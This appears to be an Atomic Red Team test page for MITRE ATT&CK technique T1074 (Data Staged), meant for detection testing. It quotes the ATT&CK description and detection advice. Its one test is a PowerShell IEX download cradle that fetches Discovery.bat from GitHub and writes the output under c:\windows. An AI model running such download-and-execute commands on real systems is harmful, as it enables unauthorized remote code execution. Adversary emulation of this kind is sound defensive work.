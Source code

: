 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as Data Compressed or Data Encrypted.

Interactive command shells may be used, and common functionality within cmd and bash may be used to copy data into a staging location.

Detection: Processes that appear to be reading files from disparate locations and writing them to the same directory or file may be an indication of data being staged, especially if they are suspected of performing encryption or compression on the files.

Monitor processes and command-line arguments for actions that could be taken to collect and combine files. Remote access tools with built-in features may interact directly with the Windows API to gather and copy to a location. Data may also be acquired and staged through Windows system management tools such as Windows Management Instrumentation and PowerShell.

Platforms: Linux, macOS, Windows

Data Sources: File monitoring, Process monitoring, Process command-line parameters</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.bat')" > c:\windows\pi.log
```
<br/>
